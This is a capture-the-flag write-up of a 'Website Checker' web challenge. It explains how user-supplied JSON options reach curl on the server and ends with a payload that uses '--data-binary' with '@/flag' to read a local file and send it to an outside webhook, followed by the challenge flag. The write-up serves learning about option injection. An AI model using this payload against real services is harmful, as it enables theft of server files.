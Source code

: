 # Website Checker

## Write-up

- The app seems to check the connectivity of a given website and return the status code. So internally, it must send requests to the website we provide.  
- We can try this by providing a webhook url, and we'll see that we get a request, and by looking at the user agent, it's coming from curl.
- Trying to inject some commands into curl doesn't seem to work, but when checking the request sent by the app, we notice that it sent an object with this format.
```
{
	"Host":"Our host",
	{"Options":
		{

		}
	}
}
```
- The options object is sent empty, but since we know the app is using curl, we can try to add curl options (for example, the -X option, which is used to specify the HTTP method to use).
```
{
	"host":"Our host",
	{"options":
		{
			"X":"POST"
		}
	}
}
```
- Knowing the exact way to send the options may require some trying. Sending the above object will result in a POST request, which means we successfully passed options to curl.
- We know that the flag is in `/flag` so all we need to do now is find a way to read files using curl. By looking in the manual (or the web), you can find this with the `--data-binary` option.
```
If  you  start  the  data  with  the letter @, the rest should be a file name to read the data from,
```
- This means that we can send a request with `@/flag`, which will result in reading the flag and sending it back to us.
#### Payload
```
{
	"host":"https://enxadv57kl0h.x.pipedream.net/",
	"options":
		{
			"--data-binary":"@/flag"
		}
}
```
**Note**: It also works with `--data-urlencode` and other options and there is other ways to read.

## Flag

`shellmates{Curl_4nd_1t5_m4g1c4l_0Pt10n$$}}`
